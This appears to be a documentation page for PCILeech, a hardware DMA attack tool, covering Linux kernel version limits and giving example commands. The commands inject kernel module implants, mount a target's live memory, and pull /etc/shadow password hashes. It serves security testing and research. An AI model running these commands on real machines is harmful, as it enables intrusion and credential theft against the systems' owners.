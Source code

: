 ```yaml
---
outline: [2,3]
---
```



## Target operating system: Linux 64-bit (x64)

PCILeech is currently able to target Linux x64 with kernel module implants. PCILeech does not support 32-bit Linux targets or ARM targets, except for native DMA memory access which is operating system independent.

The Linux kernel have gone through several changes during the years and different signatures and methods are required depending on the target system kernel version and the attack hardware used.

In kernels equal or below version 4.6 the kernel itself is always found below 4GB which means that both the USB3380 and FPGA hardware is able to access the kernel and patch into it.

Kernels equal to or above version 4.8 randomizes the kernel in the whole physical memory, making it unlikely to end up below 4GB which makes it a problem for USB3380 hardware - but not for FPGA hardware.

Kernels above or equal to 4.19 may currently experience problems.

In addition to directly target the kernel PCILeech supports targeting the EFI Runtime Services. This may be useful if USB3380 attack hardware is used more recent kernels and the system is EFI booted and not Legacy/MBR booted. The EFI Runtime Services attack method is discussed more in detail in the blog entry [Attacking UEFI Runtime Services and Linux](http://blog.frizk.net/2017/01/attacking-uefi-and-linux.html).

***

### Examples:

Load a kernel module into Linux kernel 4.6 or below. Minimum supported kernel version 2.6.33. Both USB3380 and FPGA hardware.
* ` pcileech kmdload -kmd LINUX_X64_46 `

Load a kernel module into the Linux kernel by first targeting the EFI runtime services. Both USB3380 and FPGA hardware.
* ` pcileech kmdload -kmd LINUX_X64_EFI `

Load a kernel module into Linux kernel 4.8 or above. Not likely to work with USB3380 hardware unless extremely lucky, will work with FPGA hardware.
* ` pcileech kmdload -kmd LINUX_X64_48 `

Mount Linux, kernel prior or equal to 4.6, target system live RAM and file system without pre-loading a KMD.
* ` pcileech.exe mount -kmd LINUX_X64_46 `

Retrieve the file /etc/shadow from a Linux system without pre-loading a KMD.
* ` pcileech lx64_filepull -kmd LINUX_X64_46 -s /etc/shadow -out c:\temp\shadow `

In addition to the examples below please find additional built-in commands and Linux compatible implants starting with lx64 when executing `pcileech` without any parameters.